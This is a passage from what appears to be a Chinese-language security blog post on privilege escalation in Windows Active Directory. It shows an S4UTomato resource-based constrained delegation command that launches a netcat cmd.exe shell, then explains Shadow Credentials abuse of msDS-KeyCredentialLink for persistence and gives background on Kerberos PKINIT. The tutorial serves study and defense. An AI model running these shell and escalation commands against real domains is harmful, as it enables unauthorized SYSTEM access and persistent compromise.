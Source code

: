 得到服务票据后，通过 SCMUACBypass 访问 Service Control Manager（SCM）创建系统服务，从而获取 SYSTEM 权限，执行效果如下所示。

```console
S4UTomato.exe rbcd -m NEWCOMPUTER -p pAssw0rd -c "nc.exe 127.0.0.1 4444 -e cmd.exe"
```

![rbcd](/assets/posts/2023-08-02-escalate-service-account-to-localSystem-via-kerberos/rbcd.gif)

## Shadow Credentials

在 [Black Hat Europe 2019](https://www.dsinternals.com/wp-content/uploads/eu-19-Grafnetter-Exploiting-Windows-Hello-for-Business.pdf) 大会期间，Michael Grafnetter（[@MGrafnetter](https://twitter.com/MGrafnetter)）讨论了针对 Windows Hello for Business 技术的多种攻击方法，其中包括域持久化技术。该技术涉及修改目标计算机账户或用户帐户的 `msDS-KeyCredentialLink` 属性，以获得用于检索 NTLM 哈希值和请求 TGT 票据。即使目标帐户的密码被修改后，该属性也不会受到影响，因此，攻击者可以使用该技术完美的实现域持久性。

与设置 `msDS-AllowedToActOnBehalfOfOtherIdentity` 相似，计算机账户对自身的 `msDS-KeyCredentialLink` 属性拥有 WriteProperty 权限。我们可以在服务帐户的上下文中连接到活动目录，为当前计算机对象的 `msDS-KeyCredentialLink` 属性写入一个新的 `Key Credential` 以请求 TGT 票据，并最终通过 S4U2Self 提升至 SYSTEM 权限。

### What is PKINIT ?

PKINIT 是 Kerberos 协议的扩展协议，允许在身份验证阶段使用数字证书。这种技术可以用智能卡或 USB 类型的身份验证代替基于密码的身份验证。PKINIT 协议允许在 Kerberos 协议的初始（预）身份验证交换中使用公钥加密，通过使用公钥加密来保护初始身份验证，Kerberos 协议得到了显着增强，并且可以与现有的公钥身份验证机制（例如智能卡）一起使用。

在传统的 Kerberos 身份验证中，客户端必须在 KDC 为其提 TGT 票据之前执行 “预身份验证”，该票证随后可用于获取服务票证。客户端使用其凭据加密时间戳来执行预身份验证，以向 KDC 证明他们拥有该帐户的凭据。使用时间戳而不是静态值有助于防止重放攻击。
